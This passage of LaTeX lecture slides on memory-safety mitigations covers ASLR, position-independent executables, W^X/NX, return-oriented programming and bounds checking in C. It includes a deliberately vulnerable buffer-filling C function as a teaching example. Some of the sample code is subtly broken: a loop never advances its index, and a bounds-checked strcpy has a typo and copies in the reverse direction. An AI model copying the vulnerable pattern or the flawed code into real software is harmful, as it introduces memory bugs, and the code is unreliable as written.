        why are these addresses fixed?
    }; 
    \end{scope}
\end{visibleenv}

\end{tikzpicture}
\end{frame}

\begin{frame}{program memory (x86-32 Linux; ASLR)}
\begin{tikzpicture}
\tikzset{
    mylabel/.style={font=\ttfamily,align=center,append after command={([xshift=.1cm]\tikzlastnode.west) edge[ultra thick] ++(-.2cm,0cm)}},
    mybox/.style={draw,rectangle,minimum width=7cm,fill=white},
    myhigh/.style={draw,rectangle,line width=1mm, draw=blue!80!black,opacity=.3},
}
\node[mybox,minimum height=.5cm,inner ysep=0mm,pattern=north west lines,pattern color=black!50!white] (kernel) {Used by OS};
\begin{pgfonlayer}{bg}
    \node[right=1mm of kernel.north east,mylabel] (topLabel) {0xFFFF FFFF};
    \node[right=1mm of kernel.south east,mylabel] {0xC000 0000};
\end{pgfonlayer}
\node[mybox, minimum height=.5cm, below=.5cm of kernel] (stack) {Stack};
\begin{pgfonlayer}{bg}
    \node[right=1mm of stack.north east,mylabel] {\myemph{$\pm$ 0x080 0000} (default)};
\end{pgfonlayer}
\node[mybox, minimum height=.5cm, below=0.5cm of stack] (heapB) {Dynamic/Libraries (mmap)};
\begin{pgfonlayer}{bg}
    \node[right=1mm of heapB.north east,mylabel] (heapBLabel) {\myemph{$\pm$ 0x008 0000} (default)};
\end{pgfonlayer}
%\begin{pgfonlayer}{bg}
%    \node[right=1mm of heapB.south east,mylabel] (heapBLabel) {0x0000 2baa aaaa b000 \\ $\pm$ 0x100 0000 0000\*};
%\end{pgfonlayer}
\node[mybox, minimum height=.5cm, below=0.5cm of heapB] (heap) {Heap (brk/sbrk)};
\begin{pgfonlayer}{bg}
\node[right=1mm of heap.south east,mylabel] (heapBLabel) {\myemph{$\pm$ 0x200 0000}};
\end{pgfonlayer}
\node[mybox, minimum height=.5cm, below=0.2mm of heap] (data) {Writable data};
\begin{pgfonlayer}{bg}
%\node[right=1mm of data.south east,mylabel] (bottomLabel) {0x0804 0000};
\end{pgfonlayer}
\node[mybox, minimum height=.5cm, below=0.6cm of data] (sdata) {Code + Constants};
\begin{pgfonlayer}{bg}
\node[right=1mm of sdata.south east,mylabel] (bottomLabel) {0x0804 8000};
\end{pgfonlayer}
\coordinate (memBottom) at ($(sdata.south east) + (0mm, -2mm)$);
\begin{pgfonlayer}{bg}
\draw[pattern=north west lines, pattern color=black!40!white] (kernel.north west) rectangle (memBottom);
\end{pgfonlayer}
\end{tikzpicture}
\end{frame}

\begin{frame}{how much guessing?}
    \begin{itemize}
    \item gaps change by multiples of page (4K)
        \begin{itemize}
        \item lower 12 bits are \myemph{fixed}
        \end{itemize}
    \item 64-bit: \myemph{huge} ranges --- need millions of guesses
        \begin{itemize}
        \item about \myemph{30 randomized bits} in addresses
        \end{itemize}
    \item 32-bit: \myemph{smaller} ranges --- hundreds of guesses
        \begin{itemize}
        \item only about \myemph{8 randomized bits} in addresses
        \item why? only 4 GB to work with!
        \item can be configured higher --- but larger gaps
        \end{itemize}
    \end{itemize}
\end{frame}

\subsection{Hard-coded addresses}

\againframe<2-3>{aslr64}

\begin{comment}

\begin{frame}{one possibility --- not fixed}
    \begin{itemize}
        \item could just \myemph{edit fixed addresses at load time}
        \item usual dynamic linking strategy avoids this
            \begin{itemize}
                \item typical dynamic linkers support it, but unused by compilers, etc.
            \end{itemize}
        \item a lot slower than writing small table of addresses
        \item a lot more ``metadata'' for linker
        \item harder to share memory between programs
    \end{itemize}
\end{frame}

\begin{frame}{relocating: Windows}
    \begin{itemize}
        \item Windows will \myemph{edit code} to relocate
        \item programs/libraries \textit{usually} include \myemph{relocation table}
        \item typically one fixed location per program/library \textbf{per boot}
            \begin{itemize}
                \item same address used across all instances of program/library
                \item still allows sharing memory
            \end{itemize}
        \item fixup once per program/library per boot
            \begin{itemize}
                \item before ASLR: code could be pre-relocated
            \end{itemize}
        \item Windows + Visual Studio had `full' ASLR by default since 2010
    \end{itemize}
\end{frame}

\begin{frame}{relocating and stubs: Windows}
    \begin{itemize}
        \item What about the ``stubs'' and lookup tables?
            \begin{itemize}
                \item Windows GOT equivalent is IAT (Import Address Table)
            \end{itemize}
        \item Can't Windows avoid them by editing code?
        \item Probably, but\ldots it doesn't
        \item Why?
    \end{itemize}
\end{frame}

\begin{frame}{Windows ASLR limitation}
    \begin{itemize}
        \item same address in all programs --- not very useful against local exploits
    \end{itemize}
\end{frame}

\begin{frame}{PIC: Linux, OS X}
    \begin{itemize}
        \item \myemph{position independent code}
            \begin{itemize}
                \item instead of fixed-up hard-coded addresses
            \end{itemize}
        \item Linux, OS X don't fixup code at runtime
        \item previously a challenge for ASLR
        \item libraries on these systems previously had no fixed address
        \item \ldots but executables had a bunch
    \end{itemize}
\end{frame}

\newcommand{\myemphTwo}[1]{\myemph<2>{#1}}%
\newcommand{\myemphThree}[1]{\myemph<3>{#1}}%
\newcommand{\antiEmphThree}[1]{{\color<3>{blue}#1}}%
\newcommand{\antiEmphFour}[1]{{\color<4>{blue}#1}}%
\begin{frame}[fragile,label=hardCodedAsm]{hard-coded addresses? (64-bit)}
\lstset{language=C,style=small}
\begin{tikzpicture}
\node[anchor=north east] (code) at (-1, 0) {
\begin{lstlisting}
int foo(int n) {
    switch (n) {
    case 0: 
    case 2:
    case 4:
        return 1;
    case 1:
    case 3:
    case 5:
        return 2;
    default:
        return 3;
    }
}
\end{lstlisting}
};
\draw[thick] (-.75, 0) -- (-.75,-7);
\node[anchor=north west,align=left] (disasm) at (-.5, 0) {
\lstset{
    language={},
    style=smaller,
    escapeinside=~~,
}
\begin{lstlisting}
foo:
	movl	$3, %eax
	cmpl	$5, %edi
	ja	.L3
	movl	%edi, %edi
	jmp	*.L4(,%rdi,8)
	.section	.rodata
.L4:
	.quad	.L6
	.quad	.L5
	.quad	.L6
	.quad	.L5
	.quad	.L6
	.quad	.L5
\end{lstlisting}
};
\end{tikzpicture}
\end{frame}


\begin{frame}[fragile,label=hardCodedDisasm]{hard-coded addresses? (64-bit)}
\lstset{language=C,style=small}
\begin{tikzpicture}
\node[anchor=north east] (code) at (-1, 0) {
\begin{lstlisting}
int foo(int n) {
    switch (n) {
    case 0: 
    case 2:
    case 4:
        return 1;
    case 1:
    case 3:
    case 5:
        return 2;
    default:
        return 3;
    }
}
\end{lstlisting}
};
\draw[thick] (-.75, 0) -- (-.75,-7);
\node[anchor=north west,align=left] (disasm) at (-.5, 0) {
\lstset{
    language={},
    style=smaller,
    escapeinside=~~,
}
\begin{lstlisting}
~\textit{40056f <foo>}~:
b8 03 00 00 00    mov    $0x3,%eax
83 ff 05          cmp    $0x5,%edi
77 ~\antiEmphThree{14}~            ja     ~\antiEmphThree{40058d}~ <foo+0x1e>
89 ff             mov    %edi,%edi
ff 24 fd
~\myemphTwo{18 06 40 00}~      jmpq   *~\myemphTwo{0x400618}(,\%rdi,8)~
b8 02 00 00 00    mov    $0x2,%eax
c3                retq   
b8 01 00 00 00    mov    $0x1,%eax
f3 c3             repz retq 
...
~\textit{@ 400618:} \myemphTwo{0x400588}~
~\textit{@ 400620:} \myemphTwo{0x400582}~
~\textit{@ 400628:} \myemphTwo{0x400588}~
~\textit{@ 400630:} \myemphTwo{0x400582}~
\end{lstlisting}
};
\end{tikzpicture}
\end{frame}

\begin{frame}[fragile,label=hardCodedB]{hard-coded addresses}
\begin{tikzpicture}
\node[anchor=north east] (code) at (-1, 0) {
\lstset{
    language={},
    style=smaller,
    escapeinside=~~,
}
\begin{lstlisting}
test-64-nopie.exe:     file format elf64-x86-64
test-64-nopie.exe
architecture: i386:x86-64, flags 0x00000112:
EXEC_P, HAS_SYMS, D_PAGED
start address 0x0000000000400450

Program Header:
    PHDR off    0x0000000000000040 vaddr ~\myemph{0x0000000000400040}~ paddr 0x0000000000400040 align 2**3
         filesz 0x00000000000001f8 memsz 0x00000000000001f8 flags r-x
  INTERP off    0x0000000000000238 vaddr ~\myemph{0x0000000000400238}~ paddr 0x0000000000400238 align 2**0
         filesz 0x000000000000001c memsz 0x000000000000001c flags r--
    LOAD off    0x0000000000000000 vaddr ~\myemph{0x0000000000400000}~ paddr 0x0000000000400000 align 2**21
         filesz 0x000000000000078c memsz 0x000000000000078c flags r-x
    LOAD off    0x0000000000000e10 vaddr ~\myemph{0x0000000000600e10}~ paddr 0x0000000000600e10 align 2**21
         filesz 0x0000000000000228 memsz 0x0000000000000230 flags rw-
\end{lstlisting}
};
\end{tikzpicture}
\end{frame}

\begin{frame}{relocation?}
    \begin{itemize}
        \item one solution: be willing change addresses at load time
        \item requires: table of \myemph{relocations} in \myemph{executable code}
        \item Windows does this
        \item Linux's dynamic linker is not willing to
    \end{itemize}
\end{frame}

\begin{frame}{PIE}
    \begin{itemize}
    \item position-independent executables (PIE)
        \begin{itemize}
        \item no hardcoded addresses
        \end{itemize}
    \item alternative: \myemph{edit code (not global offset table) at load time}
        \begin{itemize}
        \item Windows solution
        \end{itemize}
    \item GCC: \texttt{-pie -fPIE}
        \begin{itemize}
        \item \texttt{-pie} is linking option
        \item \texttt{-fPIE} is compilation option
        \end{itemize}
    \end{itemize}
\end{frame}

\begin{frame}[fragile,label=PIEjtasm]{PIE jump-table}
\begin{tikzpicture}
\node[anchor=north east] (code) at (-1, 0) {
\lstset{
    language={},
    style=smaller,
    escapeinside=~~,
}
\begin{lstlisting}
foo:
  movl	 $3, %eax
  cmpl	 $5, %edi
  ja	 retDefault
  movl	 %edi, %edi
  leaq	 ~\myemphTwo{jumpTable(\%rip)},~%rax
  movslq ~\myemphTwo{(\%rax,\%rdi,4)},~%rdx
  addq	 %rdx, %rax
  ~\myemphTwo{jmp}~   ~\myemphTwo{*\%rax}~
retTwo:
  movl  $2, %eax
  ret
retOne:
  movl  $1, %eax
retDefault:
  rep ret
\end{lstlisting}
};
\node[anchor=north west] (code2) at ([xshift=2cm]code.north east) {
\lstset{
    language={},
    style=smaller,
    escapeinside=~~,
}
\begin{lstlisting}
  .section	.rodata
jumpTable:
  .long	retOne-jumpTable
  .long	retTwo-jumpTable
  .long	retOne-jumpTable
  .long	retTwo-jumpTable
  .long	retOne-jumpTable
  .long	retTwo-jumpTable
\end{lstlisting}
};
\end{tikzpicture}
\end{frame}

\begin{frame}[fragile,label=PIEjt]{PIE jump-table}
\begin{tikzpicture}
\node[anchor=north east] (code) at (-1, 0) {
\lstset{
    language={},
    style=smaller,
    escapeinside=~~,
}
\begin{lstlisting}
~\myemphTwo{00000000000007ab}~ <foo>:
b8 03 00 00 00       	mov    $0x3,%eax
83 ff 05             	cmp    $0x5,%edi
77 1d                	ja     7d2 <foo+0x27>
89 ff                	mov    %edi,%edi
48 8d 05 aa 00 00 00 	lea    ~\myemphThree{0xaa(\%rip),}~%rax        # 868
48 63 14 b8          	movslq ~\myemphThree{(\%rax,\%rdi,4),}~%rdx
48 01 d0             	add    %rdx,%rax
ff e0                	jmpq   *%rax
b8 02 00 00 00       	mov    $0x2,%eax
c3                   	retq   
b8 01 00 00 00       	mov    $0x1,%eax
f3 c3                	repz retq
...
~\textit{@ 868:}~~\myemphThree{-155}~
~\textit{@ 870:}~~\myemphThree{-11}~
...
\end{lstlisting}
};
\end{tikzpicture}
\end{frame}

\begin{frame}{added cost}
\begin{itemize}
    \item replace \texttt{jmp *jumpTable(,\%rdi,8)}
    \vspace{.5cm}
    \item with:
        \item \texttt{lea} (get table address --- with relative offset)
        \item \texttt{movslq} (do table lookup of offset)
        \item \texttt{add} (add to base)
        \item \texttt{jmp} (to computed base)
\end{itemize}

\end{frame}

\begin{frame}[fragile,label=x86Worse]{32-bit x86 is worse}
    \begin{itemize}
    \item no relative addressing for {\tt mov}, {\tt lea}, \ldots
    \item even changes ``stubs'' for printf:
    \end{itemize}
\lstset{
    language={},
    style=smaller,
    escapeinside=~~,
}
\begin{lstlisting}
// BEFORE:
08048310 <__printf_chk@plt>:
 8048310: ff 25 10 a0 04 08  jmp    *0x804a010
    /* 0x804a010 == global offset table entry */

// AFTER:
00000490 <__printf_chk@plt>:
 490:	ff a3 10 00 00 00    jmp    *0x10(%ebx)
    /* %ebx --- address of global offset table */
    /* needs to be set by caller */
\end{lstlisting}
\end{frame}

\subsection{Performance cost}

\begin{frame}{position independence cost (32-bit)}

\includegraphics[width=\textwidth]{pie-cost}
\imagecredit{Payer, ``Too much PIE is bad for performance'', ETH Zurich Tech Report}
\end{frame}

\begin{frame}{position independence cost: Linux}
\begin{itemize}
    \item geometric mean of SPECcpu2006 benchmarks on x86 Linux
    \item 64-bit: 2-3\% (???)
    \item 32-bit: 9-10\%
    \item depends on compiler, \ldots
\end{itemize}
\end{frame}
\begin{frame}{position independence: deployment}
\begin{itemize}
    \item<2> my laptop (64-bit Ubuntu 16.04): approx. 14\% of executables are PIE
    \item<2> Ubuntu 16.10 (released 2016 Oct): enables PIE by default
        \begin{itemize}
            \item also Debian Stretch (late 2016), Fedora 23 (late 2015), \ldots
        \item<2> OS X enables PIE by default since 10.7 (despite perf. cost)
    \end{itemize}
\end{itemize}
\end{frame}
\section{NX}

\againframe<2>{mappingList}

\begin{frame}[fragile,label=wxorx]{write XOR execute}
    \begin{itemize}
    \item many names:
    \begin{itemize}
        \item \verb|W^X| (write XOR execute)
        \item DEP (Data Execution Prevention)
        \item NX bit (No-eXecute) (hardware support)
        \item XD bit (eXecute Disable) (hardware support)
    \end{itemize}
    \item mark writeable memory as executable
    \item how will users insert their machine code?
        \begin{itemize}
        \item can only code in application + libraries
        \item a problem, right?
        \end{itemize}
    \end{itemize}
\end{frame}

\subsection{History of HW support}

\begin{frame}{hardware support for write XOR execute}
    \begin{itemize}
    \item not historically common
    \item early x86: \myemph{execute implied by read}
    \item NX support added with x86-64 and around 2000 for x86-32
    \end{itemize}
\end{frame}

\begin{frame}{deliberate use of writeable code}
    \begin{itemize}
    \item ``just-in-time'' (JIT) compilers
        \begin{itemize}
        \item fast virtual machine/language implementations
        \end{itemize}
    \item some weird GCC features
    \item older ``signals'' on Linux
    \item couldn't just disable executable stacks without breaking applications
    \end{itemize}
\end{frame}

\begin{frame}{why doesn't W xor X solve the problem?}
    \begin{itemize}
    \item ASLR, stack canaries, etc. had performance penalty
    \item W xor X essentially doesn't
    \item so, what's the problem?
        \begin{itemize}
        \item can still modify arbitrary things --- very dangerous!
        \end{itemize}
    \end{itemize}
\end{frame}

\begin{frame}{mitigations overview}
    \begin{itemize}
    \item talked about: ASLR, write XOR execute, stack canaries
    \item other widely deployed mitigations:
        \begin{itemize}
            \item \textit{sandboxing} AKA \textit{privilege seperation}
            \item automatic bounds checks for static array sizes
                \begin{itemize}
                \item Linux name: {\tt \_FORTIFY\_SOURCE}
                \end{itemize}
        \end{itemize}
    \vspace{.5cm}
    \item intention: turned on \myemph{in production}
    \item don't solve memory error --- just don't act as badly
    \end{itemize}
\end{frame}

\begin{frame}{more mitigations and alternatives}
    \begin{itemize}
    \item there are more mitigation techniques
        \begin{itemize}
        \item from research --- intend to go over some
        \item some require more application changes
        \item and/or high overhead (e.g. 50-100\% more runtime)
        \end{itemize}
    \item not only solution:
        \begin{itemize}
        \item tools/libraries for writing code with less memory errors
        \item tools for finding (memory and other) errors
        \item tools for proving no (memory and other) errors
        \end{itemize}
    \item intend to talk about these later in course
    \end{itemize}
\end{frame}

\begin{frame}{why do we need other solutions?}
    \begin{itemize}
    \item ASLR is ineffective due to information leaks
        \begin{itemize}
        \item if there's a memory error, pointer values are probably available
        \end{itemize}
    \item NX is ineffective in practice due to \myemph{return-oriented programming}
    \end{itemize}
\end{frame}

\section{return-oriented programmming}

\begin{frame}{next topic: ROP}
    \begin{itemize}
    \item return-oriented programming
    \item AKA arc injection
    \item AKA return-to-libc
    \vspace{.5cm}
    \item find ``chain'' of machine code that does what you want
    \end{itemize}
\end{frame}


\begin{frame}{}
\end{frame}


\section{Mitigations overview}

\begin{frame}{mitigations overview}

\includegraphics[width=\textwidth]{tbl-mitigations}
\imagecredit{From Szekeres et al, ``SoK: Eternal War in Memory'', 2013.}
\end{frame}

\begin{frame}{SoK's table definitions}
    \begin{itemize}
    \item memory safety 
        \begin{itemize}
        \item no out-of-bounds
        \item no use-after-free
        \end{itemize}
    \end{itemize}
\end{frame}

\begin{frame}{better mitigations: preview}
    \begin{itemize}
        \item improve libraries to make bounds-checking easier
        \item insert bounds-checking everywhere
            \begin{itemize}
                \item like Java/Python does
            \end{itemize}
        \item try to prove malloc/free/etc. used correctly
        \item try to prove array bounds are checked correctly
            \begin{itemize}
                \item language/programmer can help!
            \end{itemize}
        \item use garbage collector instead of malloc/free/etc.
            \begin{itemize}
                \item like Java/Python does
            \end{itemize}
    \end{itemize}
\end{frame}

\section{Bounds-checking}

\begin{frame}{language-level solutions}
    \begin{itemize}
    \item languages like Python don't have this problem
    \item aren't pointers the problem?
    \end{itemize}
\end{frame}

\subsection{Extending pointers}

\begin{frame}{bounds-checking C}
    \begin{itemize}
    \item there have been many proposals to add bounds-checking to C
    \item including implementations
    \item brainstorm: \myemph{why hasn't this happened?}
    \end{itemize}
\end{frame}

\begin{frame}[fragile,label=addBounds]{adding bounds-checking}
    \lstset{language=C,style=smaller}
\begin{lstlisting}
void vulnerable() {
    char buffer[100];
    int c;
    int i = 0;
    while ((c = getchar()) != EOF && c != '\n') {
        buffer[i] = c;
    }
}
void vulnerable_checked() {
    char buffer[100];
    int c;
    int i = 0;
    while ((c = getchar()) != EOF && c != '\n') {
        crashIf(i >= 100 || i < 0);
        buffer[i] = c;
    }
}
\end{lstlisting}
\end{frame}

\begin{frame}[fragile,label=wrappedPointers]{adding bounds-checking --- fat pointers}
\lstset{
    language=C,
    style=small
}
\begin{lstlisting}
struct MyPtr {
    char *pointer;
    char *minimum;
    char *maximum;
};
\end{lstlisting}
\end{frame}

\begin{frame}[fragile,label=wrappedPtrStrcpy]{adding bounds checking --- strcpy}
\lstset{
    language=C,
    style=small
}
\begin{lstlisting}
MyPtr strcpy(MyPtr dest, const MyPtr src) {
    int i;
    do {
        CHECK(src.pointer + i <= src.maximum);
        CHECK(src.pointer + i >= src.minimum);
        CHECK(dest.pointer + i <= dest.maximum);
        CHECK(dest.pointer + i >= dest.minimum);
        src.pointer[i] = dest..pointer[i];
        i += 1;
        CHECK(src.pointer + i <= src.maximum);
        CHECK(src.pointer + i >= src.minimum);
    } while (src.pointer[i] != '\0');
    return dest;
}
\end{lstlisting}
\end{frame}

\begin{frame}{speed of bounds checking}
    \begin{itemize}
    \item two comparisons for every pointer access?
    \item three times as much space for every pointer?
    \end{itemize}
\end{frame}

\begin{frame}{research example}
    
\includegraphics[width=\textwidth]{baggy-bounds-title}
\end{frame}

\begin{frame}[fragile,label=baggyBounds]{baggy bounds checking}
\end{frame}

\subsection{Breaking programs?}

\subsection{Performance cost}
\end{comment}
